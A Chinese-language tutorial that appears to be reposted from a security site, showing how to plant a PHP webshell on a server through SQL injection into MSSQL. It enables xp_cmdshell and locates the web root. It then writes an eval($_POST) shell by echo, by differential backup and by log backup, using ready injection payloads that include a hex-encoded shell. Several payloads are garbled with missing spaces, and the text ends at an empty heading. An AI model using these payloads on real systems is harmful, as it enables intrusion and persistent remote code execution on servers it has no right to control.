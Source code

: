 # webshell写入

## **1、必备条件**

① 有相应的权限db\_owner  
② 获得Web目录的绝对路径

## **2、写入方法**

向MSSQL写入WebShell的方法一共有种：利用xp\_cmdshell命令、差异备份写入shell、log备份写入shell。

## **3、使用XP\_cmdshell写入Webshell**

### （1）实验前准备

首先我们需要查找网站目录的绝对路径，查找绝对路径的方法有5种：

1. 通过报错信息查找；
2. 通过目录爆破猜解；
3. 通过旁站的目录确定；
4. 通过存储过程来搜索；
5. 通过读取配置文件查找。

其中通过存储过程来搜索，SQLServer提供了两种方法：xp\_cmdshell和xp\_dirtree

`execute master..xp_dirtree ‘c:’;` 可以查出所有c:\下的文件、目录、子目录。

![](https://image.3001.net/images/20200810/1597038222.png!small)

在真实环境中时，我们执行execute可能并不能得到回显信息，但我们可以在注入点处新建一张表，然后将xp\_dirtree查询到的信息插入其中，再查询这张表即可得相应的绝对路径了。

Xp\_cmdshell是一个更为有效的查询绝对路径的函数，但是目前已经被SQLServer默认关闭了，但我们可以使用如下命令启用这个选项。

```text
EXEC sp_configure 'show advanced options',1;//允许修改高级参数RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1; //打开xp_cmdshell扩展RECONFIGURE;--
```

![](https://image.3001.net/images/20200810/1597038261.png!small)

开启了xp\_cmsshell之后我们就可以执行CMD命令了，例如:

```text
for /r c:\ %i in (1*.php) do @echo %i
```

就可以查询c:\目录下的所有符合1\*.php的文件，同理，在实际应用中，我们也是新建一个表，并将xp\_cmdshell查询到的信息插入后，再次查询即可。

![](https://image.3001.net/images/20200810/1597038271.png!small)

### **（2）使用xp\_cmdshell写入WebShell**

我们可以通过xp\_cmdshell执行系统CMD命令，例如我们可以使用CMD中的echo命令，将WebShell的代码写入到网站目录下，所以我们必须提前知道Web目录的绝对路径。

```text
PAYLOAD：1’;execmaster..xp_cmdshell'echo^<?phpeval($_POST["pass"]);?^>>F:\\PhpStudy20180211\\PHPTutorial\\WWW\\cmd.php';
```

![](https://image.3001.net/images/20200810/1597038305.png!small)

### **（3）使用差异备份写入WebShell**

首先对某一数据库进行备份。

```text
PAYLOAD：id = 1’;backup database 库名 to disk = 'F:\\PhpStudy20180211\\PHPTutorial\\WWW\\back.bak';
```

![](https://image.3001.net/images/20200810/1597038328.png!small)

其次将WebShell代码写入数据库中,

PAYLOAD：`id = 1’; create table cybk([cmd] [image]);#`创建一个新表

PAYLOAD：`id=1’;insertintocybk(cmd)`

```text
vaues(0x3C3F706870206576616C28245F504F53545B2770617373275D293B203F3E);
#将WebShell的代码转换成ASCII码
```

![](https://image.3001.net/images/20200810/1597038350.png!small)![](https://image.3001.net/images/20200810/1597038364.png!small)

最后将此数据库进行差异备份，这样其中就会包含刚刚写入的WebShell代码。

```text
PAYLOAD：id=1’; backup database library todisk='F:\\PhpStudy20180211\\PHPTutorial\\WWW\\cybk.php' WITHDIFFERENTIAL,FORMAT;
```

![](https://image.3001.net/images/20200810/1597038444.png!small)

![](https://image.3001.net/images/20200810/1597038383.png!small)

### **（4）使用log备份写入WebShell**

使用Log备份写入WebShell的要求是他的数据库已经备份过，而且要选择完整模式的恢复模式，相比较差异备份而言，使用Log备份文件会小的多。

首先需要将数据库设置为完整恢复模式，然后创建一个新表，将WebShell用Ascii编码后写入其中，然后将该数据库的日志信息导出到Web目录，即可。

![](https://image.3001.net/images/20200810/1597038468.png!small)

可在Web目录下找到导出的日志文件，其中包含了WebShell的代码。

![](https://image.3001.net/images/20200810/1597038503.png!small)

## 

